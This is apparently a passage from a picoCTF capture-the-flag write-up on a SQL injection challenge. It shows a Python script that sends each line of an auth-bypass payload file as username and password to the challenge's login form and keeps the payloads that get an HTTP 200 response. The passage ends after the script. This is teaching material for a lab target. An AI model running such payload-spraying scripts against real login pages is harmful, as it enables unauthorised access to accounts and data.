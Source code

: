 ![](assets/ctf_more_sqli_site.png)

When i tried to login with `admin:admin` it gave me this

![](assets/ctf_more_sqli_login_attempt.png)

Based on that SQL query we are looking at an SQL injection vulnerable application over here. 

After i tested a couple of payloads that usually work, i figured better write a python script to automate things.

The login requests are sent in the body of a `POST` request, and then the SQL query is returned using the values of `username` and `password`.

![](assets/ctf_more_sqli_example_login_request.png)

Here is the python code

```Python
import requests

workingPayloads = []
with open('sqli-auth-bypass.txt','r') as payload:
    for line in payload:
        headers = {'content-type': 'application/x-www-form-urlencoded'}
        #print(line)
        postRequest = f'username={line}&password={line}'
        r = requests.post('http://saturn.picoctf.net:57636/', data=postRequest, verify=False, headers=headers)
        print(r, line)
        if 200 == r.status_code:
            workingPayloads.append(line)
```